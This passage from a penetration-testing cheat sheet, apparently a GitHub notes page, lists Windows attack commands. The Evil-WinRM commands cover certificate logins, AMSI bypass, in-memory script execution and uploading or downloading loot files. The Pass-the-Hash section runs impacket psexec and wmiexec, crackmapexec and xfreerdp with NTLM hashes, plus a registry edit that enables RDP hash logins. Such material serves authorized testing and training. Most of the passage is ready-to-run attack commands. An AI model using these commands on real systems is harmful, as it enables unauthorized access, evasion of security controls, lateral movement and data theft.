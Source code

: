 ```bash

# Using a certificate (PKI auth)
evil-winrm -i <TARGET_IP> -c <CERTIFICATE.PFX> -p <PFX_PASSWORD> -o evil-winrm-logs.txt

# Public/private keys
evil-winrm -i <TARGET_IP> -c <CERTIFICATE.PEM> -k <PRIV-KEY.PEM> -S -o evil-winrm-logs.txt
```
Commands:
```PowerShell
# See all commands
menu
# enumerate services
services

# Bypassing Windows security
Bypass-4MSI
# Run binary from attack box
Invoke-Binary /opt/privsc/winPEASx64.exe

upload /path/to/local/file.exe C:\Users\Public\file.exe
download loot.txt
download C:\Users\Public\loot.txt /local/path/loot.txt
# Uploads and executes the script in memory
script /path/to/local/script.ps1
```

---
### Pass-The-Hash
```bash
# https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/

# Fully interactive, but requires admin privileges
# Requires writable SMB shares (typically C$ or ADMIN$)
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.153.212

# Not fully interactive, each command runs separately
# Requires WMI open (validate ports)
# SEE DEDICATED "PASS THE HASH" AD SECTION FOR MORE INFO
impacket-wmiexec -hashes :e78ca771aeb91ea70a6f1bb372c186b6 Administrator@192.168.153.212

# See also Evil-WinRM section
evil-winrm -i <TARGET_IP> -u <USERNAME> -H <NTLM_HASH> -l evil-winrm-logs.txt

# Access SMB (file operations on SMB, not command execution)
smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

# Shaping operation for future RDP use (possible but need to explicitly enable "Restricted Admin Mode")
# (Add "-d corp.com" for domain)
cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'

# RDP pass-the-hash
xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C
# RDP pass-the-hash domain
xfreerdp /v:192.168.2.200 /u:CORP\Administrator /d:corp.com /pth:8846F7EAEE8FB117AD06BDD830B7586C
```

---